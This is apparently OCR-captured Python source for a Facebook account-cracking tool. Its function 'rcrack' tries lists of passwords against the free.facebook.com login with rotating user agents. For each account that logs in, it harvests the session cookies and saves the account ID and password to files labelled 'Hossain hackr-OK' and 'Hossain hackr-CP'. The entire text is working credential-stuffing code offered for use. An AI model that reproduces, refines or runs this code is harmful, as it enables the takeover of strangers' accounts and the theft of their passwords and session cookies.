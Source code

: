 def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'free.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=1',
            'cache-control': 'no-cache, no-store, must-revalidate',
            "referer": 'https://t.facebook.com/',
            "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',
            "sec-ch-ua-mobile": '?1',
            "sec-ch-ua-platform": "Windows",
            "sec-fetch-dest": 'document',
            "sec-fetch-mode": 'navigate',
            "sec-fetch-site": 'same-origin',
            "sec-fetch-user": '?0',
            "pragma": 'no-cache',
            "priority": 'u=0',
            'cross-origin-resource-policy': 'cross-origin',
            "upgrade-insecure-requests": '1',
            "user-agent": pro}
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('    \033[1;32m[Hossain hackr-OK]  ' +cid+ ' | ' +ps+    '  \n \033[1;33mCookie = \033[1;32m'+coki+  ' \n '+pro+'  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/Hossain hackr-OK.txt', 'a').write( cid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                print('    \33[1;30m[Hossain hackr-CP] ' +cid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/Hossain hackr-CP.txt', 'a').write( cid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1